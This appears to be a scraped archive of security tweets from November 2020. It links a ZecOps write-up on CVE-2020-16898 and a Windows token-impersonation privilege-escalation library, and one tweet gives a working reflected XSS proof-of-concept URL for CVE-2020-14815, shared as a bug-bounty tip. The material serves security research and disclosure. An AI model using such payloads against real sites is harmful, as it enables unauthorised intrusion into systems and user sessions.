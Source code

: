 * https://blog.zecops.com/vulnerabilities/exploring-the-exploitability-of-bad-neighbor-the-recent-icmpv6-vulnerability-cve-2020-16898/

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+EmzFAIuXEAA-tT6.jpg" alt="http://pbs.twimg.com/media/EmzFAIuXEAA-tT6.jpg"></td>
<td><img src="pictures/http+++pbs.twimg.com+media+EmzFAI0XUAYySra.jpg" alt="http://pbs.twimg.com/media/EmzFAI0XUAYySra.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>81</code></td>
</tr></table>

---

# HackerOn2Wheels
**https://twitter.com/HackerOn2Wheels/status/1326927875279380480 _at 2020-11-12 16:40:33_**
<blockquote>
Nothing critical, but here is the PoC for the new CVE I got credited for: CVE-2020-14815. 

https://target[.]com/bi-security-login/login.jsp?msi=false&amp;redirect="&gt;&lt;img/src/onerror%3dalert(document.domain)&gt;

Got a couple of Med in H1 using it. Have Fun!

#bugbounty #bugbountytips https://t.co/A8qx640VgE
</blockquote>


<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+Emox1wcXIAAabpt.png" alt="http://pbs.twimg.com/media/Emox1wcXIAAabpt.png"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>134</code></td>
<td>Favorites: <code>343</code></td>
</tr></table>

---

# _r_netsec
**https://twitter.com/_r_netsec/status/1326830372450000902 _at 2020-11-12 10:13:06_**
<blockquote>
PYTMIPE (Python 3 library for Token Manipulation and Impersonation for Privilege Escalation on Windows) &amp; TMIPE (python client) https://t.co/G9Djv3twrb
</blockquote>

* https://github.com/quentinhardy/pytmipe
